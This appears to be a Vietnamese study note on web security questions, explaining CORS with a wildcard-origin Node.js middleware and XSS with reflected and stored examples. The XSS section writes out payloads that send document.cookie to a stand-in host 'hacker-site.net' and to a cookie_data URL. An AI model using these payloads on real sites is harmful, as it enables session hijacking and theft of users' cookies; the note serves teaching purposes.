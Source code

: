 # Câu hỏi bảo mật
## Câu 1. CORS là gì ?
- CORS: <strong>Cross Origin Resource Sharing</strong>
- CORS là một trong những chính sách bảo mật Same Origin Policy, một chính sách bảo mật được cài đặt trên toàn bộ các trình duyệt hiện nay. Chính sách này để ngăn chặn hoặc cho phép việc truy cập tài nguyên từ Orign này đến Origin khác

<strong>A. Client</strong>
- Khi Client gửi 1 request lên Server. Request này tự động được gắn HTTP Header với thông tin Origin (Thông tin Origin của Client không thể thay đổi được)
- Origin bao gồm 3 thành phần, VD: https://facebook.com:80
 + Protocol: http hoặc https
 + Domain
 + Port

<strong>A. Server</strong>
- Bên Server cài đặt 3 thành phần: Origin, Methods, Content-Type
- VD: Khi sử dụng NodeJS, cài đặt middleware cho phép truy cập từ mọi nguồn

```javascript
app.use((req, res, next) => {
    res.header('Access-Control-Allow-Origin', '*')
    res.header('Access-Control-Allow-Methods', 'GET, POST, PATCH, PUT, DELETE')
    res.header('Access-Control-Allow-Headers', 'Content-Type')
    next()
})
```

## Câu 2. XSS là gì ?
- XSS: Cross Site Scripting
- XSS là 1 dạng tấn công mà hacker chèn mã độc vào các đoạn script để người dùng thực thi phía Client
- Mục đích tấn công: lấy cookies, session, tokens của người dùng => chiếm quyền truy cập của người dùng

<strong>A. Các dạng tấn công thường thấy</strong>
1. Reflected XSS
- Dạng này thường tấn công 1 người dùng cụ thể
- Hacker gửi cho người dùng URL dạng
http://example.com/name=var+i=new+Image;+i.src="http://hacker-site.net/"%2Bdocument.cookie
--> Sau khi click vào link trên, đoạn script sẽ đc thực hiện, và gửi cookie đến site của hacker
var i=new Image; i.src="http://hacker-site.net/"+document.cookie;

2. Stored XSS
- Trong bài viết, hoặc trong 1 comment, hacker đăng bài, trong đó nội dung được kèm theo 1 đoạn script
```html
<script type=”text/javascript”>
// Nội dung bài viết
var test='../example.php?cookie_data='+escape(document.cookie);
// Nội dung bài viết
</script>
```
- Loại tấn công này, thì cứ khi nào nạn nhân vào đọc bài viết đó thì sẽ thực thi mã độc


